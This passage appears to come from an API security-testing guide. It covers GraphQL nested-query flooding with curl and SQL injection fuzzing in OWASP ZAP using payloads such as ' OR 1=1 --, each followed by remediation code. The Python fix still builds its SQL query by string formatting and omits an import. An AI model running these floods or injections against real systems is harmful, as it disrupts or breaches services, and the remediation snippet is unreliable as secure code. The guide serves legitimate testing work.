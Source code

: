 **Steps**:
1. Craft a nested GraphQL query.
2. Use cURL to send it repeatedly.
3. Monitor response time and server behavior.
4. Save commands and responses.

**cURL Commands**:
- **Command 1**: Send deep query:
  ```bash
  curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer abc123" --data '{"query": "query { users { posts { comments { author { posts { comments { id } } } } } } }"}' http://example.com/graphql
  ```
- **Command 2**: Flood with queries:
  ```bash
  for i in {1..10}; do curl -X POST -H "Content-Type: application/json" --data '{"query": "query { users { posts { comments { author { posts { id } } } } } }"}' http://example.com/graphql; done
  ```

**Remediation**:
- Limit query depth:
  ```javascript
  const depthLimit = require('graphql-depth-limit');
  const server = new ApolloServer({ schema, validationRules: [depthLimit(5)] });
  ```

### **5. Test Injections with OWASP ZAP**

Test for SQL, NoSQL, and command injections (WSTG-APIT-01, API Top 10 A03:2023).

**Steps**:
1. Configure OWASP ZAP proxy (127.0.0.1:8080).
2. Import API endpoints.
3. Run active scan with injection payloads.
4. Save scan reports.

**OWASP ZAP Commands**:
- **Command 1**: Scan GraphQL for injections:
  ```
  Sites tab -> Right-click http://example.com/graphql -> Attack -> Active Scan -> Select SQL Injection -> Start Scan
  ```
- **Command 2**: Fuzz REST parameters:
  ```
  Sites tab -> Right-click GET http://example.com/api/users?name=test -> Attack -> Fuzzer -> Add Payloads: SQL Injection (e.g., ' OR 1=1 --) -> Start Fuzzer
  ```

**Remediation**:
- Sanitize inputs:
  ```python
  from graphql import GraphQLError
  def resolve_user(parent, info, name):
      if not re.match(r'^[a-zA-Z0-9]+$', name):
          raise GraphQLError('Invalid input')
      return db.query(f"SELECT * FROM users WHERE name = '{name}'")
  ```
